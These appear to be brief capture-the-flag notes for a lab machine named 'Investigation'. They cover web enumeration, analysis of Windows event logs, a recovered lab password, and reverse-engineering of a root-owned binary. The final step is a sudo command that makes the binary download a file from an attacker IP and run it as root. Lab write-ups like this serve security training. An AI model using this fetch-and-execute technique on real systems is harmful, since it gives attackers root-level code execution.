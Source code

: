 Investigation

# Enumeration
## Web
### /analysed_images
Exiftool 12.37

# www-data
Cron:
```bash
*/5 * * * * date >> /usr/local/investigation/analysed_log && echo "Clearing folders" >> /usr/local/investigation/analysed_log && rm -r /var/www/uploads/* && rm /var/www/html/analysed_images/*
```

/usr/local/investigation/Windows\ Event\ Logs\ for\ Analysis.msg
$ extract_msg Windows\ Event\ Logs\ for\ Analysis.msg

## Log file
Events
    Event
        System
          Provider
          EventID
          Version
          Level
          Task
          Opcode
          Keywords
          TimeCreated
          EventRecordID
          Correlation
          Execution
          Channel
          Computer
          Security
        EventData
          Data
          Data
          Data
          Data
          Data
          Data
          Data

```bash
$ cat security.xml | grep "SubjectUserName" | sort --unique
<Data Name="SubjectUserName">AAnderson</Data>
<Data Name="SubjectUserName">DWM-1</Data>
<Data Name="SubjectUserName">DWM-2</Data>
<Data Name="SubjectUserName">DWM-3</Data>
<Data Name="SubjectUserName">DWM-4</Data>
<Data Name="SubjectUserName">DWM-5</Data>
<Data Name="SubjectUserName">DWM-6</Data>
<Data Name="SubjectUserName">DWM-7</Data>
<Data Name="SubjectUserName">DWM-8</Data>
<Data Name="SubjectUserName">DWM-9</Data>
<Data Name="SubjectUserName">EFORENZICS-DI$</Data>
<Data Name="SubjectUserName">HMarley</Data>
<Data Name="SubjectUserName">LJenkins</Data>
<Data Name="SubjectUserName">LMonroe</Data>
<Data Name="SubjectUserName">LOCAL SERVICE</Data>
<Data Name="SubjectUserName">SMorton</Data>
<Data Name="SubjectUserName">SYSTEM</Data>
<Data Name="SubjectUserName">UMFD-1</Data>
<Data Name="SubjectUserName">UMFD-2</Data>
<Data Name="SubjectUserName">UMFD-3</Data>
<Data Name="SubjectUserName">UMFD-4</Data>
<Data Name="SubjectUserName">UMFD-5</Data>
<Data Name="SubjectUserName">UMFD-6</Data>
<Data Name="SubjectUserName">UMFD-7</Data>
<Data Name="SubjectUserName">UMFD-8</Data>
<Data Name="SubjectUserName">UMFD-9</Data>
<SubjectUserName>SMorton</SubjectUserName>
```

MICROSOFT_AUTHENTICATION_PA
Found passwords: Def@ultf0r3nz!csPa$$

# Smorton
## Binary
Checks:
 - Needs 2 arguments
 - Needs to run as UID 0
 - 2nd args needs to be lDnxUysaQn

Functionality
 - Reads something from 2nd arg (file)
 - Curls something (File transfer to 1st arg)
 - Check if filetransfer successfull?
     - Empty lDnxUysaQn file (format string)
     - Malloc lDnxUysaQn (0x0000202a)
     - perl ./lDnxUysaQn ? 
     - Deleted lDnxUysaQn afterwards

# Root
$ sudo /usr/bin/binary http://10.10.16.4:9003 lDnxUysaQn

